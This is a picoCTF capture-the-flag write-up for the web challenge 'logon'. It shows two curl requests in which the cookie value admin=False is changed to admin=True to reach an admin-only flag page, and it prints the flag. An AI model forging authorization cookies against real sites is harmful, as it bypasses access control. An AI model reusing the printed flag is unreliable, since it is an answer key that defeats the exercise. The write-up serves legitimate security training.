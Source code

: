 # logon
## Category
Web Exploitation
## Problem Description
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? https://jupiter.challenges.picoctf.org/problem/15796/ ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796
## Approach
Try logging in using Joe as username and from the network tab of inspect element copy as curl the link of file flag.
```
curl 'https://jupiter.challenges.picoctf.org/problem/15796/flag' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://jupiter.challenges.picoctf.org/problem/15796/' -H 'Connection: keep-alive' -H 'Cookie: _ga=GA1.2.1905962877.1654003369; __cf_bm=8_mUrjCd79YdEhLtNwim.xDhe7upQj9gIZbclp3TT3E-1656037399-0-AcSs2cK0Uh8m2t48qUhtN0QnX3l9xa6mkckvq/ja1WTx4j2b/8uwW1Za2HmEQIpqQQiFpabaUW0+w87OwqlOoSdtcRYPQgYwWrKq4odKAtOFsEXZA8Tty/uTHd/A6AuYuLRJDV0AbDUgFox/YbVPP6UPvldaKfJvfqU1migB05+j; _gid=GA1.2.348668275.1656037401; _gat=1; password=1234; username=joe; admin=False' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1'
```
Change admin=False to admin=True and view compressed formm to obtain the flag.
```
curl 'https://jupiter.challenges.picoctf.org/problem/15796/flag' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://jupiter.challenges.picoctf.org/problem/15796/' -H 'Connection: keep-alive' -H 'Cookie: _ga=GA1.2.1905962877.1654003369; __cf_bm=8_mUrjCd79YdEhLtNwim.xDhe7upQj9gIZbclp3TT3E-1656037399-0-AcSs2cK0Uh8m2t48qUhtN0QnX3l9xa6mkckvq/ja1WTx4j2b/8uwW1Za2HmEQIpqQQiFpabaUW0+w87OwqlOoSdtcRYPQgYwWrKq4odKAtOFsEXZA8Tty/uTHd/A6AuYuLRJDV0AbDUgFox/YbVPP6UPvldaKfJvfqU1migB05+j; _gid=GA1.2.348668275.1656037401; _gat=1; password=1234; username=joe; admin=True' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --compressed

```
## Flag
picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}
